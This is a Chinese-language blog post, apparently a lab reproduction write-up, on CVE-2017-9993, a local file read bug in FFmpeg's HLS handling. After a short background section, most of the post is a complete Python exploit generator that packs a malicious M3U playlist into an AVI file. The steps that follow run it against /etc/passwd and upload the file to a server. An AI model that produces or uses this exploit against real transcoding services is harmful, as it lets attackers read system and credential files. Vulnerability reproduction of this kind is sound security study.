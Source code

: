 ```yaml
---
title: CVE-2017-9993-FFmpeg文件读取漏洞
tags:
  - CVE
  - FFmpeg
description: FFmpeg文件读取漏洞
categories:
  - - 安全
    - 漏洞复现
    - CVE
abbrlink: 1787481902
date: 2020-10-31 15:58:00
---
```


# CVE-2017-9993-FFmpeg文件读取漏洞
[CVE-2017-9993-FFmpeg文件读取漏洞实验环境](https://www.ichunqiu.com/course/59107)  

## 漏洞介绍

FFmpeg

FFmpeg是一套目前非常流行的可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。它提供了录制、转换以及流化音视频的完整解决方案。目前有非常多的视音频软件或是视频网站、手机 APP 都采用了这个库。

HLS 协议简单介绍

HLS(HTTP Live Streaming)是苹果公司针对iPhone、iPod、iTouch和iPad等移动设备而开发的基于HTTP协议的流媒体解决方案。在 HLS 技术中 Web服务器向客户端提供接近实时的音视频流。但在使用的过程中是使用的标准的 HTTP 协议，所以这时，只要使用 HLS 的技术，就能在普通的 HTTP 的应用上直接提供点播和直播。

该技术基本原理是将视频文件或视频流切分成小片(ts)并建立索引文件(m3u8)。客户端会先向服务器请求 m3u8索引文件，然后根据索引文件里面的url去请求真正的ts视频文件。如果是多级的m3u8索引的话，那就会从根索引文件开始，一层一层的往下去请求子的索引文件，获取最终的TS流文件的http请求地址与时间段。

漏洞介绍

6月24日，HackerOne平台名为neex的白帽子针对俄罗斯最大社交网站VK.com上报了该漏洞，并因此获得1000美元奖金。

ffmpeg可处理HLS播放列表，而播放列表中已知可包含外部文件的援引。neex表示他借由该特性，利用avi文件中的GAB2字幕块，可以通过XBIN codec获取到视频转换网站的本地文件。

影响范围

3.2.2 3.2.5 3.1.2 2.6.8

不受影响的版本

3.3.2

漏洞危害

该漏洞可导致读取本地任意文件，危害较大,Google,Yahoo,Youtube等门户、视听网站以及支持流转码服务的业务已被曝出存在该漏洞。国内支持流转码的网站也可能有存在该漏洞的风险。


## 漏洞利用脚本

gen_xbin_avi.py  
[gen_xbin_avi.py](https://github.com/neex/ffmpeg-avi-m3u-xbin)  

```
#!/usr/bin/env python3
import struct
import argparse
import random
import string

AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

ECHO_TEMPLATE = """### echoing {needed!r}
#EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
#EXTINF:1,
#EXT-X-BYTERANGE: 16
/dev/zero
#EXT-X-KEY: METHOD=NONE
"""

# AES.new('\x00'*16).decrypt('\x00'*16)
GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

FULL_PLAYLIST = """#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
{content}
#### random string to prevent caching: {rand}
#EXT-X-ENDLIST"""

EXTERNAL_REFERENCE_PLAYLIST = """
####  External reference: reading {size} bytes from {filename} (offset {offset})
#EXTINF:1,
#EXT-X-BYTERANGE: {size}@{offset}
{filename}
"""

XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'


def echo_block(block):
    assert len(block) == 16
    iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
    return ECHO_TEMPLATE.format(needed=block, iv=iv)


def gen_xbin_sync():
    seq = []
    for i in range(60):
        if i % 2:
            seq.append(0)
        else:
            seq.append(128 + 64 - i - 1)
    for i in range(4, 0, -1):
        seq.append(128 + i - 1)
    seq.append(0)
    seq.append(0)
    for i in range(12, 0, -1):
        seq.append(128 + i - 1)
    seq.append(0)
    seq.append(0)
    return seq


def test_xbin_sync(seq):
    for start_ind in range(64):
        path = [start_ind]
        cur_ind = start_ind
        while cur_ind < len(seq):
            if seq[cur_ind] == 0:
                cur_ind += 3
            else:
                assert seq[cur_ind] & (64 + 128) == 128
                cur_ind += (seq[cur_ind] & 63) + 3
            path.append(cur_ind)
        assert cur_ind == len(seq), "problem for path {}".format(path)


def echo_seq(s):
    assert len(s) % 16 == 0
    res = []
    for i in range(0, len(s), 16):
        res.append(echo_block(s[i:i + 16]))
    return ''.join(res)


test_xbin_sync(gen_xbin_sync())

SYNC = echo_seq(gen_xbin_sync())


def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
    content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
    packet = b'00tx' + struct.pack('<I', len(content)) + content
    dcpkt = b'00dc' + struct.pack('<I',
                                  fake_packet_len) + b'\x00' * fake_packet_len
    return AVI_HEADER + packet + dcpkt * fake_packets


def gen_xbin_packet_header(size):
    return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])


def gen_xbin_packet_playlist(filename, offset, packet_size):
    result = []
    while packet_size > 0:
        packet_size -= 16
        assert packet_size > 0
        part_size = min(packet_size, 64)
        packet_size -= part_size
        result.append(echo_block(gen_xbin_packet_header(part_size)))
        result.append(
            EXTERNAL_REFERENCE_PLAYLIST.format(
                size=part_size,
                offset=offset,
                filename=filename))
        offset += part_size
    return ''.join(result), offset


def gen_xbin_playlist(filename_to_read):
    pls = [echo_block(XBIN_HEADER)]
    next_delta = 5
    for max_offs, filename in (
            (5000, filename_to_read), (500, "file:///dev/zero")):
        offset = 0
        while offset < max_offs:
            for _ in range(10):
                pls_part, new_offset = gen_xbin_packet_playlist(
                    filename, offset, 0xf0 - next_delta)
                pls.append(pls_part)
                next_delta = 0
            offset = new_offset
        pls.append(SYNC)
    return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
        random.choice(string.ascii_lowercase) for i in range(30)))


if __name__ == "__main__":
    parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
    parser.add_argument(
        'filename',
        help='filename to be read from the server (prefix it with "file://")')
    parser.add_argument('output_avi', help='where to save the avi')
    args = parser.parse_args()
    assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
    content = gen_xbin_playlist(args.filename)
    avi = make_playlist_avi(content)
    output_name = args.output_avi

    with open(output_name, 'wb') as f:
        f.write(avi)
```

## 步骤

`./gen_xbin_avi.py file://<filename> file_read.avi`  

运行脚本  

`python gen_xbin_avi.py file:///etc/passwd passwd.avi`

上传视频文件 查看
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/37/01.png)

[FFmpeg文件读取漏洞（CVE-2017-9993）](https://www.ichunqiu.com/experiment/detail?id=59111&source=1)  

